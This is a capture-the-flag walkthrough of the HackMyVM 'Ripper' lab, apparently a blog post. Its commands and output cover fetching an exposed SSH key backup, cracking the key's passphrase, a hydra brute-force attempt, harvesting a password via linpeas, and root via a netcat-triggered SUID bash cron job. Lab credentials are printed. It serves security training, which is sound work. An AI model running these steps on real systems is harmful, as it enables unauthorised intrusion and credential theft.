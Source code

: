 ```yaml
---
title: "Ripper - HackMyVM Walkthrough" 
---
```


nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/t800]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 14:12 EDT
Nmap scan report for 192.168.56.254
Host is up (0.00064s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

running go buster to enumerate files and directories: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -q -x php,txt,html,jpg,jpeg -u http://192.168.56.254/
/index.html           (Status: 200) [Size: 57]
/staff_statements.txt (Status: 200) [Size: 107]
/server-status        (Status: 403) [Size: 279]
{% endhighlight %}

staff_statements.txt:
{% highlight text %}
The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.
{% endhighlight %}

"Old ssh connection files." what could that mean? It means they are potentially using
.bak files, let's run another gobuster scan and specify bak in the extensions:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x txt,bak -u http://192.168.56.254/
{% endhighlight %}

while that's running let's try and wget an id_rsa.bak key from the webserver manually
it actually worked:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ wget http://192.168.56.254/id_rsa.bak
{% endhighlight %}

We need to find the technicians username in order to login. I tried a few generic 
ones with no luck so let's try to crack the ssh key using ssh2john.py:

Generating the hash:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ ./ssh2john.py id_rsa.bak > id_rsa_hash
{% endhighlight %}

Using john to crack the hash: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ john -w=/usr/share/wordlists/rockyou.txt id_rsa_hash
[SSH] cipher value of 6 is not supported!
Using default input encoding: UTF-8
No password hashes loaded (see FAQ)
{% endhighlight %}

Shit, there's no way of cracking it with john as the cypher isn't supported. Let's 
try using RSAcrack.sh. Firstly we need to download it and install it in the usr/bin
directory:
{% highlight terminal %}
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/RSAcrack/main/RSAcrack.sh" -O /usr/bin/RSAcrack
root@kali:~# chmod +x /usr/bin/RSAcrack
{% endhighlight %}

Now as the kali user we can use the script:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ RSAcrack

         ██████╗ ███████╗ █████╗
         ██╔══██╗██╔════╝██╔══██╗
         ██████╔╝███████╗███████║
         ██╔══██╗╚════██║██╔══██║
         ██║  ██║███████║██║  ██║
         ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
  ██████╗██████╗  █████╗  ██████╗██╗  ██╗
 ██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝
 ██║     ██████╔╝███████║██║     █████╔╝ 
 ██║     ██╔══██╗██╔══██║██║     ██╔═██╗ 
 ╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗
  ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

[i] Example: RSAcrack <wordlist> <id_rsa>
{% endhighlight %}

This tool is a great addition. After a little while RSAcrack found the password:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ RSAcrack /usr/share/wordlists/rockyou.txt id_rsa.bak 

         ██████╗ ███████╗ █████╗
         ██╔══██╗██╔════╝██╔══██╗
         ██████╔╝███████╗███████║
         ██╔══██╗╚════██║██╔══██║
         ██║  ██║███████║██║  ██║
         ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
  ██████╗██████╗  █████╗  ██████╗██╗  ██╗
 ██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝
 ██║     ██████╔╝███████║██║     █████╔╝ 
 ██║     ██╔══██╗██╔══██║██║     ██╔═██╗ 
 ╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗
  ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

[-] Cracking: id_rsa.bak
[-] Wordlist: /usr/share/wordlists/rockyou.txt
[i] Status:
    957/14344392 (0%) (bananas) )   
[+] Password: bananas Line: 957
{% endhighlight %}


So we've got `bananas` as the key password, but now we need to find the user. 
After not being able to enumerate anything on the web server I looked at a guide and
the writer said that it's visible when the machine terminal is viewed rather than 
being headless in VirtualBox. So we have our user jack. Let's use the key and 
passphrase to login:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ ssh -i id_rsa.bak jack@192.168.56.254
Enter passphrase for key 'id_rsa.bak': 
Linux ripper 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 26 15:28:56 2021 from 192.168.0.28
jack@ripper:~$ 
{% endhighlight %}

Enumerating users on the system:
{% highlight text %}
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:,,,:/home/jack:/bin/bash
helder:x:1001:1001:,,,:/home/helder:/bin/bash
{% endhighlight %}

Let's try to bruteforce the helder login with hydra:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/ripper]
└─$ hydra -l helder -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.254 -vV
{% endhighlight %}

I let it run for 1000 attempts and quit the session. We'll need to do more more local
enumeration. linpeas.sh to the rescue. 

I transferred it over to the victim machine using a python http server and ran it. 

Interesting info from linpeas.sh:
`═╣ Can I read opasswd file? ............. jack:Il0V3lipt0n1c3t3a`

So we have the credentials, let's try them for our other user on the system. 

They worked for the helder user:
{% highlight terminal %}
helder@ripper:~$ls -asl
total 32
4 drwx------ 3 helder helder 4096 May 26 15:24 .
4 drwxr-xr-x 4 root   root   4096 May 26 14:02 ..
0 lrwxrwxrwx 1 root   root      9 May 26 14:03 .bash_history -> /dev/null
4 -rw-r--r-- 1 helder helder  220 May 26 14:02 .bash_logout
4 -rw-r--r-- 1 helder helder 3659 May 26 15:24 .bashrc
4 drwxr-xr-x 3 helder helder 4096 May 26 15:08 .local
4 -rw-r--r-- 1 helder helder  940 May 26 15:24 .profile
4 -rwx------ 1 helder helder   33 May 26 15:10 user.txt
4 -rw------- 1 helder helder   52 May 26 14:57 .Xauthority
{% endhighlight %}

User flag submitted.

I consulted a guide once again to see the best course of action to take because I
was lost. It suggested `pspy64` should be run to catch any processes we may have 
missed. 

Letting it run a while showed me the following:

{% highlight text %}
2021/11/06 21:16:01 CMD: UID=0    PID=24846  | /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
{% endhighlight %}

So this process runs netcat on local host on port 10000, it then compares helder.txt
to a passwd.txt file in the helder directory. 

Getting root:
{% highlight terminal %}
helder@ripper:~$echo "bash" > /tmp/root
helder@ripper:~$nc -nlvp 10000 < /tmp/root 
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60522
helder@ripper:~$nc -lnvp 10000 < /tmp/root 
listening on [any] 10000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60524
helder@ripper:~$ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
helder@ripper:~$bash -p
helder@ripper:~$whoami
root
{% endhighlight %}

I submitted the flags and got the points. Hooray for points. 
